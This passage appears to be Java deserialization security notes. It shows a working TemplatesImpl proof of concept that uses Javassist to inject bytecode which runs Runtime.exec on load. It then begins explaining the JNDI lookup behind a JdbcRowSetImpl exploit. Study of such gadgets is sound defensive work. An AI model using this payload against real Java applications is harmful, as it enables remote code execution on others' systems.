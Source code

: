 ```java
    return transformer;  
}
```

#### Proof of Concept
```java
Class templatesImplCls = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");  
Class abstractTransletCls = Class.forName("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
Class factoryCls = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl");  
  
ClassPool classPool = ClassPool.getDefault();  
classPool.insertClassPath(new ClassClassPath(Gadgets.StubTransletPayload.class));  
  
CtClass clazz = classPool.get(Gadgets.StubTransletPayload.class.getName());  
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";  
clazz.makeClassInitializer().insertAfter(cmd);  
  
CtClass abstractTransletCtCls = classPool.get(abstractTransletCls.getName());  
clazz.setSuperclass(abstractTransletCtCls);  
String className = "payload" + System.nanoTime();  
clazz.setName(className);  
  
byte[] bytecode = clazz.toBytecode();

Object templates = templatesImplCls.newInstance();  
Reflections.setFieldValue(templates, "_bytecodes", new byte[][]{bytecode, ClassFiles.classAsBytes(Gadgets.Foo.class)});  
Reflections.setFieldValue(templates, "_name", "xxx");  
Reflections.setFieldValue(templates, "_tfactory", factoryCls.newInstance());  
  
((TemplatesImpl) templates).newTransformer();
```

## JdbcRowSetImpl exploit


> [!NOTE] pre-requirements
> Reproduced on JDK1.8

The method `connect()` of `JdbcRowSetImpl` can look up the JNDI URL stored in `databaseMetaData` property.
```java
private Connection connect() throws SQLException {
	if(conn != null) {  
    return conn;  
  
	} else if (getDataSourceName() != null) {  
	   ...
		Context ctx = new InitialContext();  
		DataSource ds = (DataSource)ctx.lookup  
			(getDataSourceName());
	...
	}
...
}
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)